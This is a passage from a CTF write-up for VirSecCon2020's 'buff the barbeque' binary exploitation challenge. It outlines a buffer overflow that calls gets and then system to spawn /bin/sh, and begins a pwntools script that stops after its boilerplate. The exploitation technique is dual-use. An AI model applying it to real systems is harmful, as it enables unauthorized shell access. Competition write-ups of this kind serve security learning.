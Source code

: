 <img src="/images/virseccon2020/cert.jpg" />

in this post i will explain challenge that i solve by my self  , all the pwn challenge , some crypto and scripting . i can't get some flag because the service is already down

# buff the baberque | Binary Exploitation

we were given elf file called `eagle`

    eagle: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked,
    interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=a846d3f8892ac270e52ea0ce8d316fe15146d3a5, not stripped

solution :

this is just a simple buffer overflow , in order to get the flag we can call

    gets(bss) <-- filled "/bin/sh"
    system(bss) <-- system("/bin/sh")

exploit :

{% highlight python %}
#!/usr/bin/env python2
'''
    author : tripoloski
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
    generated by skeloski GEF
'''
import sys
from pwn import *
context.update(arch="i386", endian="little", os="linux", log_level="debug",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/virseccon2020/pwn/buff-the-barbarque/eagle")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    #attach(r)
